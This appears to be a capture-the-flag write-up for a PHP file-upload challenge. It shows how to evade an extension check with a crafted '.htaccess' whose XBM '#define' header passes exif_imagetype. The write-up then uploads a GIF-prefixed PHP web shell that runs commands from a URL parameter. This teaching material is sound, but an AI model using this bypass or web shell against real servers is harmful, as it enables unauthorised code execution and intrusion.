

# Upload 2

## Write-up

The source code is provided for this challenge too, we see that we have the same PHP web application with the same upload feature, but a second check has been added:


The new check doesn't allow filenames enfing with `.php` extension, but if we look at the apache configuration in that docker image, we find that the server handles **only** files ending with extension `.php` as PHP code.
So what can we do here? We can't name files with extension `.php` => we can't get our code executed.

### First part 
Well this time, some googling and/or some apache knowledge are needed.

The apache web server has a main configuratin file located in `/etc/apache/apache.conf` (to confirm), this file applies for all the directories that our web app consist of, but a feature exists, that allows, on top of the main configuration to set a per directory configuration, overriding this way the main configuration set for that directory. We can achieve this: 
- By adding a `.htaccess` file in the directory in question. 
- And specifying in the main configuration, that the `.htaccess` files are allowed to override the main configuration in the scope of that directory. For this, in the main configuration we need to specify `AllowOverride All`. This is disabled by default, but fortunately, the specified docker image `php:8.2-apache` has got this already specified in the file `/etc/apache2/conf-enabled/docker-php.conf`


In the `.htaccess` file, we can specify new directives to be applied in that directory, one that can help our case is the `SetHandler` for which we specify how to handle the file that matches certain pattern. For example, if we put in our `.htaccess` file the following directives, then all files terminating with `test` will be handled as PHP files.
```
<FilesMatch test$>
    SetHandler application/x-httpd-php
</FilesMatch>
```
So, if we put such file in our directory we can bypass the new added check in this challenge since the check prohibits filenames ending with `.php`, but now, we don't have to name our file with `.php` extension, we can just end its name with `test` and put PHP code there and the server will handle it as PHP!

### Second part
Now that we know what we have to upload, the `.htaccess` file, a little thing is still remaining, if we upload the file as it is then it fails the check of `exif_imagetype` since the first bytes don't match any valid image supported by the function.
So now, our task is to make our `.htaccess` file look like a valid image for `exif_imagetype` and in the same time a valid `.htaccess` for apache wihtout breaking it. How can we do it?
Well, if we look more closely into the valid images by `exif_imagetype`, we find that the `IMAGETYPE_XBM`, if we google this image format we find that it is the *X Bitmap* type which images are made of C, in wikipedia it gave an example of the following file as an XBM image
```C
#define test_width 16
#define test_height 7
static unsigned char test_bits[] = {
0x13, 0x00, 0x15, 0x00, 0x93, 0xcd, 0x55, 0xa5, 0x93, 0xc5, 0x00, 0x80,
0x00, 0x60 };
```
For XBM images, `exif_imagetype` reads the two first lines and checks if they specify the width and height, if so, then it returns the `IMAGETYPE_XBM`. 
The good news are that these two lines start with `#` so if we add them on top of our `.htaccess` file the apache server will see them as comments so it won't break the `.htaccess` file. 
We can exploit now.


## Exploit
1. We Upload a file named `.htaccess` with the following content
``` 
#define width 16
#define height 7
<FilesMatch \.txt$>
        SetHandler application/x-httpd-php
</FilesMatch>
```
In which we added the first two lines to bypass the `exif_imagetype` check and the rest is to allow the handling of files ending with the extension `.txt` as PHP files.
2. Now, we can upload any file with any PHP code and it is gonna get executed, so we upload a file named `shell.txt` with the following content and get our RCE when we browse to it.
```php
GIF89a
<?php passthru($_GET['cmd']); ?>
```
We added the GIF magic bytes so that the file bypasses the check of `exif_imagetype`.
Now we can get the flag.


